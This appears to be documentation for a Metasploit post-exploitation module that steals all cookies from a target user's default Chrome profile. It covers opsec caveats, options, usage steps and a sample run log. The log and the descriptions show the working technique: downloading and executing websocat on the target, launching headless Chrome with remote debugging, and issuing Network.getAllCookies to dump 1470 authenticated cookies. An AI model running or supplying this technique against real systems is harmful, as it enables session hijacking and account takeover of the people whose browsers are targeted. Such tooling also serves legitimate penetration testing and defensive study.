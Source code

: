 ## Chrome Gather Cookies

Uses [Headless Chrome](https://developers.google.com/web/updates/2017/04/headless-chrome) and [Chrome's Remote Debugging](https://chromedevtools.github.io/devtools-protocol/) to read all cookies from the Default Chrome profile of the user.

## Opsec

There are several things this module does which are not considered stealthy.

* Downloads and executes https://github.com/vi/websocat
* Writes to disk (deletes files after use)

The reason for this is that the module needs a way to communicate via the websocket protocol on the target machine, since Remote Debugging is exposed only via a websocket URL. If you don't want to take these opsec risks, and have another way of reading and writing websocket data on the target machine, example Python code for a manual exploit can be found at https://github.com/defaultnamehere/cookie_crimes.


## Vulnerable Application

This technique works on Chrome 59 or later on all operating systems. Note that this module does not yet support Windows, only Linux and macOS.

Chrome does not need to be running on the target machine for this module to work.

## Verification Steps

  1. Obtain a session on the target machine
  2. Do: ```use post/chrome/gather/cookies```
  3. Do: ```set SESSION <your session ID>```
  4. Do: ```run```

## Options

  **HEADLESS_URL**

  When Headless Chrome is opened, it needs a URL to browse to. The default is "about://blank" (an empty page in Chrome), but if you change this option, the target Chrome will make a fully authenticated request to the URL. This can be combined with Chrome's `--dump-dom` flag to print the HTML source of an authenticated HTTP request to the console.

  **CHROME_BINARY_PATH**

  The path to the user's Chrome binary. On Linux this defaults to searching for `google-chrome` in `$PATH`. On macOS, this defaults to `/Applications/Google Chrome.app/Contents/MacOS/Google Chrome'`. If the module doesn't find any cookies, it may be that a different Chrome binary to the one the user normally uses is being run. In that case, you can change the Chrome binary executed with this option.

  **WEBSOCAT_STORAGE_PATH**

  Where to store the downloaded `websocat`. This module needs to speak the websocket protocol somehow, and `websocat` is used for this. It's stored in `/tmp/websocat` by default.

  **COOKIE_STORAGE_PATH**

  Path of the temporary file used to store cookies.

  Redirection to a file is used because `websocat` streams the data, and can't send cookies larger than 65535 bytes in one message. Streaming breaks metasploit's `cmd_exec` function, and so the cookies can't be read if they're larger than 65535 bytes. The cookies are temporarily written to disk as a workaround.

  **MAX_RETRIES**

  Chrome can take some time to make the `websocketDebuggerUrl` available at `localhost:9222/json`. This option specifies how many times to retry checking for a response from `localhost:9222/json`.

  **REMOTE_DEBUGGING_PORT**
  Port to tell Chrome to expose Remote Debugging on. Default is the normal remote debugging port, `9222`.

## Scenarios

### Linux (or OS X)

  Suppose you've got a session on the target machine.

  To extract the target machine's Chrome cookies

  ```
  msf > use post/chrome/gather/cookies
  msf post(chrome/gather/cookies) > set SESSION <your session ID>

  msf5 post(test/chrome_cookies) > options

  Module options (post/test/chrome_cookies):

     Name                   Current Setting    Required  Description
     ----                   ---------------    --------  -----------
     CHROME_BINARY_PATH                        no        The path to the user's Chrome binary (leave blank to use the default for the OS)
     COOKIE_STORAGE_PATH    /tmp/websocat.log  no        Where to write the retrieved cookies temporarily
     HEADLESS_URL           about://blank      no        The URL to load with the user's headless chrome
     MAX_RETRIES            3                  no        Max retries for websocket request to Chrome remote debugging URL.
     REMOTE_DEBUGGING_PORT  9222               no        Port on target machine to use for remote debugging protocol
     SESSION                1                  yes       The session to run this module on.
     WEBSOCAT_STORAGE_PATH  /tmp/websocat      no        Where to write the websocat binary temporarily while it is used

  msf post(chrome/gather/cookies) > run

  [*] Activated Chrome's Remote Debugging via google-chrome --headless --user-data-dir="/home/target_username/.config/google-chrome/" --remote-debugging-port=9222 about://blank
  [!] Writing file /tmp/websocat to disk temporarily
  [*] Downloading https://github.com/vi/websocat/releases/download/v1.2.0/websocat_nossl_i386-linux to /tmp/websocat
  [!] Writing file /tmp/websocat.log to disk temporarily
  [-] Error running echo '{"id": 1, "method": "Network.getAllCookies"}' | /tmp/websocat -q ws://localhost:9222/devtools/page/2BB6CD14146BFB67C4523D85A348508 > /tmp/websocat.log
  [-] /bin/sh: 1: /tmp/websocat: Text file busy
  [-] No data read from websocket debugger url ws://localhost:9222/devtools/page/2BB6CD14146BFB67C4523D85A348508. Retrying... (Retries left: 2)
  [!] Writing file /tmp/websocat.log to disk temporarily
  [+] Read 1470 cookies from ws://localhost:9222/devtools/page/2BB6CD14146BFB67C4523D85A348508
  [*] Deleted /tmp/websocat
  [*] Deleted /tmp/websocat.log
  [+] Chrome Cookies stored in /home/your_username/.msf4/loot/20181203153956_default_127.0.0.1_chrome.gather.co_192519.txt
  [*] Post module execution completed
  ```
  In this example, a race condition occurred between writing the websocat binary and executing it. The module caught this and retried so it can continue gracefully.


## Future features

### Windows support
This technique works on Windows as well, this module just doesn't implement the Windows-specific functionality (the use of `websocat` to speak the websocket protocol, for example).

### Profiles
This module only extracts cookies from the default Chrome profile. The target may have multiple, and you may which to extract cookies from all of them. This would require enumerating and extracting the profiles by name. Example code to extract cookies from a non-default Chrome profile can be found at https://github.com/defaultnamehere/cookie_crimes.

## See also
See https://github.com/defaultnamehere/cookie_crimes for more information and manual instructions for Windows.

See https://mango.pdf.zone/stealing-chrome-cookies-without-a-password for the blog post in which this technique was first published.


